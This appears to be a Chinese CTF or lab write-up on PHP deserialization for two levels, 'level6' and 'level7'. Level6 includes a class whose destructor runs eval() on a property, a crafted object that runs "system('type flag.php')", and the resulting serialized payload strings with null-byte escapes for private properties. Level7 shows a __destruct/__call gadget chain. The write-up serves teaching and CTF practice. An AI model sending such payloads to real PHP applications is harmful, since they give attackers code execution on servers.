 **level6 私有属性反序列化**

```php
<?php
class secret{
    private $comm;
    public function __construct($com){
        $this->comm = $com;
    }
    function __destruct(){
        echo eval($this->comm);
    }
}
$pa=new secret("system('type flag.php');");
echo serialize($pa),"\n";
//O:6:"secret":1:{s:12:" secret comm";s:24:"system('type flag.php');";}
//O:6:"secret":1:{S:12:"\00secret\00comm";s:24:"system('type flag.php');";}
?>
```

![image-20220208202613945](./pic/image-20220208202613945.png)

**level7 __call与属性的初始值**

```php
<?php
class you
{
    private $body;
    private $pro;
    function __construct(){
        $this->body=new my();
        $this->pro='yourname';
    }
    function __destruct()
    {
        $project=$this->pro;
        $this->body->$project();
    }
}

class my
{
    public $name='myname';

    function __call($func, $args)
    {
        if ($func == 'yourname' and $this->name == 'myname') {
            include('flag.php');
            echo $flag;
        }
    }
}
$p=new you();
```